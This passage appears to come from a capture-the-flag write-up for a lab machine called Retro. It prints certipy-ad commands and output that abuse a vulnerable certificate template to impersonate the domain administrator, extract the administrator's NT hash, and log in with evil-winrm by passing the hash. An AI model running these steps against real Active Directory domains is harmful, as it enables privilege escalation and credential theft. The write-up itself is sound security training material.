 ```
┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ certipy-ad req -u 'BANKING$' -p password -dc-ip 10.10.126.241 -ca retro-DC-CA -template RetroClients -upn administrator -target 10.10.126.241
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
[*] Request ID is 8
Would you like to save the private key? (y/N) y
[*] Saved private key to 8.key
[-] Failed to request certificate
```

We increased the key size and were able to obtain the administrator's certificate.

```

┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ certipy-ad req -u 'BANKING$' -p password -dc-ip 10.10.126.241 -ca retro-DC-CA -template RetroClients -upn administrator -target 10.10.126.241 -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

We were able to request the administrator's hash using the certificate, performed a pass-the-hash attack, logged into the machine, and obtained the root flag.

```

┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'retro.vl' -dc-ip 10.10.126.241
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b5<SNIP>3b435b51404ee:252fac70<SNIP>dd009d4fd2cd0368389

┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ evil-winrm -i retro.vl -u administrator -H 252fac70<SNIP>dd009d4fd2cd0368389 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
```